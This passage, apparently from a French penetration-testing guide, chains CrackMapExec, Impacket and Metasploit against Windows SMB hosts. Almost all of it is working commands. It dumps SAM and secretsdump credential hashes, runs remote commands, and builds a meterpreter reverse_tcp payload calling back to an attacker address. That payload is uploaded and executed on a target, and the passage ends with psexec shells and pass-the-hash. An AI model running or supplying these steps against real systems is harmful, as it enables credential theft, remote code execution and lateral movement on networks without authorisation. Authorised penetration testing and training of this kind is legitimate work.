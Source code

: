 ```bash
# Installation si nécessaire
pip3 install crackmapexec

# Scan et exploitation SMB
crackmapexec smb 192.168.1.0/24 -u Administrator -p 'Password123' --sam

# Exécution de commandes sur les systèmes vulnérables
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' -x "whoami"
```

Intégration avec Metasploit :
```bash
# Génération d'un payload avec msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o payload.exe

# Utilisation de CrackMapExec pour déployer le payload
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' --put-file payload.exe C:\\Windows\\Temp\\payload.exe
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' -x "C:\\Windows\\Temp\\payload.exe"

# Configuration du handler dans Metasploit
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.50
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit
```

### Intégration avec Impacket

Impacket est une collection d'outils Python pour travailler avec les protocoles réseau Microsoft.

```bash
# Installation si nécessaire
pip3 install impacket

# Utilisation de psexec.py pour obtenir un shell
impacket-psexec Administrator:Password123@192.168.1.100

# Utilisation de secretsdump.py pour extraire les hachages
impacket-secretsdump Administrator:Password123@192.168.1.100
```

Intégration avec Metasploit :
```bash
# Extraction des hachages avec Impacket
impacket-secretsdump Administrator:Password123@192.168.1.100 > hashes.txt

# Utilisation des hachages dans Metasploit
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(windows/smb/psexec) > exploit
```
